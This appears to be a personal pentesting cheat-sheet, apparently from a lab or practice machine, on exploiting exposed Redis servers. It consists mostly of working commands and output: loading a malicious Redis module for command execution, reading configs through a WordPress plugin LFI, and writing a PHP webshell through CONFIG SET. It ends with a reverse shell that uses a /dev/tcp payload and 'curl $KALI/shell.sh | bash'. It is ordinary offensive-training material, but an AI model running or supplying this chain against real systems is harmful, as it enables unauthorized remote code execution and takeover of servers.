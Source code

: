 https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
#### Download Redis
OPTION 1:
```
sudo apt install redis-tools
```
```
redis-cli -h $TARGET -a Ready4Redis?
```
If password doesn't work try obtaining the [[#Redis config fille]].
192.168.120.85:6379> ping
PONG
```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```
```bash - kali
cd RedisModules-ExecuteCommand
```
```bash - kali
sudo make
```
Upload module.so into victim (Example by FTP):
We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.
>/var/ftp/pub/module.so
### Redis RCE
```bash - kali
redis-cli -h $TARGET
```
```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```
```bash - kali
system.exec "id"
```
[[Port 22 - SSH  ~#Generate key upload to victim]]
### Redis config files
Use with LFI vulnerability.
```
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```
```
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```
#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```
192.168.120.85:6379> config set dir /var/www/html
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
(error) ERR
```
If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to.
```
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```
Try the steps again with the new paths:
```
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
OK
192.168.120.85:6379>
```
We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.
```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
┌──(kali㉿kali)-[~]
└─$ file test.php
test.php: Redis RDB file, version 0009
┌──(kali㉿kali)-[~]
└─$ strings test.php
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```
The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```
Let's host this file using a python webserver to make it available to the target.
[[Python#Server]]
We then need to start a listener to catch the reverse shell.
[[1._rlwrap]]
Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.
```
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```
Finally, we trigger our reverse shell by using the WordPress LFI.
```
curl http:$TARGET/?path=/opt/redis-files/test.php
```
This command will hang, and we will receive a connection to our listener.
```
connect to [$KALI] from (UNKNOWN) [192.168.120.85] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
<ite-editor/editor/extensions/pagebuilder/includes$
```